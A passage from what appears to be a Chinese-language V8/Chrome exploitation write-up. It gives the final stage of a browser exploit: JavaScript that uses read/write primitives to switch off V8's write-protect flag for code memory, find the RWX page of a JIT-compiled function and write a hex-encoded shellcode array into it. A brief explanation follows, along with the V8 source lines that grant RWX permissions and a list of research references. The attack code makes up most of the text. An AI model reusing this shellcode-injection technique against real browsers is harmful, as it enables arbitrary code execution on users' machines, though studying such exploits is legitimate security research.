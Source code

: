 ```js
    function jit(a) {
        var sum = 0;
        if (a[1] == 15) {
            sum += 5;
        }
        for (var i = 0; i < a[1]; i++) {
            sum += 10;
        }
        return a[0] + sum;
    }
	// Set `write_protect_code_memory_` to false (disable W^X)
	stableWrite(0xa070, 0, false);
	// Compile a JIT function, which will create RWX memory
	compile();
	
	var jit_function_addr = stableAddrOf(jit);
	var RWX_PAGE = stableRead32(jit_function_addr + 0x18, true);
	var assembly_offset = RWX_PAGE + 0x40;
	var shellcode = [0x010101010101b848n, 0x62792eb848500101n, 0x0431480101626d60n, 0x2f7273752fb84824n, 0x68e78948506e6962n, 0x012434810101303bn, 0x534944b848010101n, 0xd231503d59414c50n, 0x52e201485a086a52n, 0x010101b848e28948n, 0xb848500101010101n, 0x0101626d6062792en, 0x752fb84824043148n, 0x31506e69622f7273n, 0xe601485e086a56f6n, 0x0f583b6ae6894856n, 0x0000000090909005n];
	for (var i = 0; i < shellcode.length; i++) {
		stableWrite(assembly_offset + (8 * i), shellcode[i], true);
	}
	
	jit([1, 15]);
```

一些基础的加减法运算会在多次执行以后通过 JIT 优化生成机器码，而如果 `write_protect_code_memory_` 没有置为非零，那么就会为这段机器码创建 RWX 内存段，通过写这段内存来注入 shellcode，最后再次调用 JIT 优化代码触发。

```c++
  if (executable == EXECUTABLE) {
    if (heap->write_protect_code_memory()) {
      chunk->write_unprotect_counter_ =
          heap->code_space_memory_modification_scope_depth();
    } else {
      size_t page_size = MemoryAllocator::GetCommitPageSize();
      size_t area_size =
          RoundUp(chunk->area_end() - chunk->area_start(), page_size);
      // [1] DefaultWritableCodePermissions == RWX
      CHECK(chunk->reservation_.SetPermissions(
          chunk->area_start(), area_size, DefaultWritableCodePermissions()));
    }
  }
```

## 参考列表

https://github.blog/2022-06-29-the-chromium-super-inline-cache-type-confusion/#the-vulnerability
https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_37975/
https://jayconrod.com/posts/52/a-tour-of-v8-object-representation
https://v8.dev/docs/ignition
https://docs.google.com/presentation/d/1chhN90uB8yPaIhx_h2M3lPyxPgdPmkADqSNAoXYQiVE/
https://juejin.cn/post/7023253397390229534#heading-7
https://zhuanlan.zhihu.com/p/38202123